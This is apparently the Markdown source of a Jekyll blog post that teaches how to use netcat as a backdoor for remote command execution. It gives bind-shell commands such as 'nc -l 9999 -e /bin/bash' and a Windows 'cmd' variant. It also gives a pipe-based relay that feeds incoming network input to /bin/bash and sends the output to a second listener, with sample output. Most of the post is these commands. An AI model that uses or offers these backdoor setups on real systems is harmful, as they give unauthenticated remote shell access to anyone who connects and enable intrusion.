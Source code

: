 ```yaml
---
layout: post
title:  "Use nc cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, nix Security]
tags: [Reversing, nix Security, Networking]
published: true 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote cmd execution
#### The easy way
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l 9999 -e /bin/bash
```

On Windows

```bash
nc -l -p 6969 -e cmd
```
![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Server-Windows-NC-E-sized.png)

**Client**

```bash
nc 127.0.0.1 9999 ls
```

On macOS

```bash
nc 192.168.64.2 6969
```

![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Client-macOS-E-sized.png)

Output on client will be something like:

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
With some (newer) versions of **nc** or on macOS for example you don't have the option of using the **-e** flag for executing commands on the target. But don't despair just yet, there is another way. You can use **nc** in another way to execute commands on the target and even get response of the executed commands. It's just a little more fingerworks to do.

The basic setup involves a **server** where you accept commands just the way you would do with the **-e** command, but as long as you cannot use this flag, you will have to forward the output to the interpreter by your self. This can be done with:

```bash
nc -l 6969 | /bin/bash
```
This command on the server side will forward all incomming messages to _/bin/bash_ and execute it, so far so well! But what is with the response? If you setup the connection between server and client like this, the client will get no response what so ever from the server and that might a be little bit poor. So what can we do?

What we can do, is to use the server as some kind of relay to execute the incomming command and then forward the result to another nc connection back to the client. So how will the setup Look like? First you setup a terminal on the client with the following command listening for results:

```bash
nc -l 6968
```

Then you setup the server with the relay listening for incomming commands, executeing them and forwardening the result back to the client with:

```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

All that is left to do now is to setup a client connection to the server from where you can send commands with the following:

```bash
nc 127.0.0.1 6969
```

Now you can send commands from the client to the server and receive the results of the executed commands in the second terminal on the client.

### Overview

##### Console on CLIENT for output
```bash
nc -l 6968
```

##### Console on SERVER
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on CLIENT for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}